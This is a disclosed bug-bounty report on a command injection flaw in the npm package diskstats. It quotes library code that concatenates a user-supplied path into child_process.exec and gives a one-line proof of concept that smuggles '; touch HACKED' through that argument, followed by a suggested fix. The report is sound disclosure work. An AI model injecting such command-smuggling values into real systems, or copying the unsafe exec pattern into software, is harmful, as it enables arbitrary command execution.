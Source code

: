 # [diskstats] Command Injection via insecure command concatenation

## Report Details
- **Report ID**: 864354
- **URL**: https://hackerone.com/reports/864354
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-01T19:55:01.641Z
- **Disclosed**: 2020-07-23T19:11:05.993Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Command Injection` issue in the `diskstats` module.
It allows to execute arbitrary commands on the victim's PC.

# Module

**module name:** `diskstats`
**version:** `0.0.2`
**npm page:** `https://www.npmjs.com/package/diskstats`

## Module Description

This library uses df to pull disk information such as free space & inode utilization on your system. This library only works on systems where df is installed and present within your path.

## Module Stats

[2] weekly downloads

# Vulnerability

## Vulnerability Description

The issue occurs because a user input parameter is used inside a command that is executed without any check. 

Here's the code which causes the issue:

```javascript
// https://github.com/PhilipSkinner/diskstats/blob/master/lib/stat.js#L44
....
stat.prototype._fetchSpace = function(path) {
	return new Promise((resolve, reject) => {
		this.child_process.exec('df ' + this._ensureAbsPath(path), (err, stdout) => {  // <-- injection
			if (err) {
				return reject(err);
			}			

			return resolve(this._parseResponse(stdout));
		});
	});
};

// https://github.com/PhilipSkinner/diskstats/blob/master/lib/stat.js#L56
stat.prototype._fetchInodes = function(path) {
	return new Promise((resolve, reject) => {
		this.child_process.exec('df -i ' + this._ensureAbsPath(path), (err, stdout) => {  // <-- injection
			if (err) {
				return reject(err);
			}

			return resolve(this._parseResponse(stdout));
		});
	});
};
...
module.exports = function(child_process, path) {
	if (!child_process) {
		child_process = require('child_process');
	}

	if (!path) {
		path = require('path');
	}

	return new stat(child_process, path);
}
```
The `path` parameter is used to build the command that is passed to the `child_process.exec` function without any check.


## Steps To Reproduce:
- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install `diskstats` module:
    -  `npm i diskstats`
- create the following PoC JavaScript file (`poc.js`):

```javascript
const diskstats = require('diskstats');
diskstats.check('; touch HACKED', (err, results) => {});

```
- make sure that the `HACKED` file does not exist:
    - `ls`
- execute the `poc.js` file:
    - `node poc.js`
- the `HACKED` file is created:
    - `ls`
    
{F811513}


## Patch
Do not concatenate/format commands using insecure user's input. Always check and sanitize it. 
In my opinion, it's better to use [`child_process.execFile`](https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback) or [`child_process.spawn`](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options) functions instead of `child_process.exec`.

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.4

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

Command Injection on `diskstats` module via insecure command concatenation.

## Attachments
- poc_diskstats.mov
